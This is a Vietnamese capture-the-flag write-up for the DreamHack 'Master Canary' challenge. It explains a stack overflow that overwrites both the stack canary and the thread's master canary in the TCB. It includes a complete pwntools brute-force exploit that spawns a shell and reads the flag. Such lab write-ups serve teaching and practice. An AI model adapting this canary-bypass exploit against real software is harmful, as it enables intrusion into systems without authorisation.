


# Master-Canary---Write-up-----DreamHack

Hướng dẫn cách giải bài Master Canary cho anh em mới chơi pwnable.

**Author:** Nguyễn Cao Nhân aka Nhân Sigma

**Category:** Binary Exploitation

**Date:** 2/12/2025

## 1. Mục tiêu cần làm
Để giải bài này chúng ta cần làm sao cho 2 cái canary của bài bằng nhau. Canary đầu tiên là Canary system, cái thứ hai là Master Canary. Làm sao biết cần cho 2 cái này bằng nhau ? Hãy gõ `gdb mc_thread`, sau đó gõ `disas thread_routine` và tìm dòng sau.



`rbp-0x8` là Canary system, fs:0x28 là Master Canary, khi 2 cái này trừ nhau, nếu nó bằng 0 ( 0x4013b0 là 0 ) thì nó sẽ `<thread_routine+154>` còn không phải thì sẽ fail `<__stack_chk_fail@plt>`. Vậy làm sao để làm được bài này.

## 2. Cách thực hiện
Đầu tiên chúng ta hãy vô file dịch ngược của bài này và xem thử biến buf nó cho là bao nhiêu. 

```C
unsigned __int64 __fastcall thread_routine(void *a1)
{
  unsigned int v2; // [rsp+Ch] [rbp-114h] BYREF
  char v3[264]; // [rsp+10h] [rbp-110h] BYREF
  unsigned __int64 v4; // [rsp+118h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  v2 = 0;
  printf("Size: ");
  __isoc99_scanf("%d", &v2);
  printf("Data: ");
  read_bytes(v3, v2);
  return v4 - __readfsqword(0x28u);
}
```

Vậy biến char là 264 byte, nghĩa là sau biến buf là Canary system. Vậy chúng ta hãy đè Canary system bằng biến 'A' để dễ so sánh với Master Canary vì tí nữa chúng ta sẽ đặt nó bằng địa chỉ là (0x41...) ( 41 là A ). Sau Canary system là `saved RBP`, chúng ta hãy đè nó bằng bất kỳ byte rác nào. Sau đó hãy đè `saved RIP` bằng địa chỉ hàm win là xong.

```Python
payload = b'A' * 264
payload += b'A' * 8 # canary
payload += b'B' * 8
payload += p64(elf.symbols['giveshell'])
```

Giờ thì làm sao để đè Master Canary bằng biến 'A' đây ? Thật ra có 2 cách, 1 là brute force : chúng ta sẽ dò từng vị trí 1 và đè lên, nếu đúng thì nó sẽ in ra flag và dừng, sai thì nó sẽ tăng lên và dò tiếp. Cách này khá lâu nhưng chắc chắn sẽ đúng. Còn cách 2 là tìm offset bằng gdb nhưng mình làm hoài không ra 🐧 nên ta sẽ xài cách 1 ( khi nào ra cách 2 thì sẽ update thêm ).

Thường Master Canary sẽ có offset khoảng 2000 - 3000 byte. Nhưng ta hãy để nó là 8000 byte cho chắc ăn và cho chạy từ 400 để cho sure kèo. 

Thường trước khi chạm tới Master Canary chúng ta sẽ phải vượt qua các địa chỉ sau : 

```C
typedef struct {
  void *tcb;            /* Offset 0x00: Pointer trỏ về chính nó */
  dtv_t *dtv;           /* Offset 0x08: Dynamic Thread Vector */
  void *self;           /* Offset 0x10: QUAN TRỌNG: Pointer trỏ về chính TCB này */
  int multiple_threads; /* Offset 0x18 */
  int gscope_flag;      /* Offset 0x1c */
  uintptr_t sysinfo;    /* Offset 0x20 */
  uintptr_t stack_guard;/* Offset 0x28: MASTER CANARY (ĐÍCH ĐẾN) */
  ...
} tcbhead_t;
```

Các địa chỉ trước hãy bỏ đi, chúng ta chỉ quan tâm đến biến `self` trở xuống thôi. Thì khoảng cách `self` đến Master Canary là 24 byte ( 0x10 ). Nhưng con trỏ `self` này **bắt buộc** phải được trỏ vô 1 vùng nhớ hợp lệ. Vậy làm sao để kiếm được vùng nhớ hợp lệ ? Khi các bạn `checksec` bạn sẽ thấy No PIE, nghĩa là địa chỉ bộ nhớ cố định. Vùng nhớ **.bss** thường nằm ở địa chỉ 0x40400 trở đi ( biến toàn cục, có thể ghi được ). Làm sao để tìm được vùng này ? Gõ `readelf -S ./mc_thread` rồi tìm cái nào có **.bss**.



Đây là nó. Vậy là xong hãy bắt đầu ghi đè tới Master Canary thôi.

```Python
payload += b'C' * (i - len(payload)) # cái này là toán các bạn hãy tự nháp ra là hiểu
payload += p64(0x404800)
payload += b'C' * (0x10)
payload += p64(0x4141414141414141)
```

Bài này có 1 cái khốn nạn là nó sẽ đọc 1 lần 8 byte liên tiếp, đồng nghĩa là bạn phải nhập size cho bài của bạn. Ví dụ bạn nhập size = 1 thì nó đọc 16 byte ( i = 0 và i = 1 ), thì chúng ta phải tìm ra size của payload này ```inp_sz = len(payload) // 8```.

Tất nhiên Brute Force thì phải có 1 điểm dừng nào đó, đâu thể chạy hết được, thì hàm win trong bài sẽ là `giveshell` nên khi chạy được, chúng ta sẽ gửi luôn lệnh `cat flag` để nó đọc luôn. Nếu sau khi `cat flag` mà có chữ *DH{** tức là đã ra flag. Chúng ta sẽ break ngay tại đây luôn.

```Python
p.sendline("cat flag")
	data = p.recvallS(timeout=3)
	if "DH{" in data:
		print(data)
		break
```

Vậy là xong, bài này với mình khá là khó, nhưng sau khi mày mò tìm tòi thì đã ra, các bạn hãy cho mình 1 star để ủng hộ mình ra write-up mới nha 🐧.


```Python
from pwn import *
context.log_level = 'debug'
for i in range(400, 9000, 8):
	#p = remote("host8.dreamhack.games", 19179)
	p = process('./mc_thread')

	elf = ELF('./mc_thread')


	payload = b'A' * 264

	payload += b'A' * 8 # canary

	payload += b'B' * 8

	payload += p64(elf.symbols['giveshell'])

	payload += b'C' * (i - len(payload))

	payload += p64(0x404800)

	payload += b'C' * (0x10)

	payload += p64(0x4141414141414141)

	inp_sz = len(payload) // 8

	p.sendlineafter(b'Size: ', str(inp_sz).encode())

	p.sendafter(b'Data: ', payload)
	p.sendline("cat flag")
	data = p.recvallS(timeout=3)
	if "DH{" in data:
		print(data)
		break


# i = 2320
```

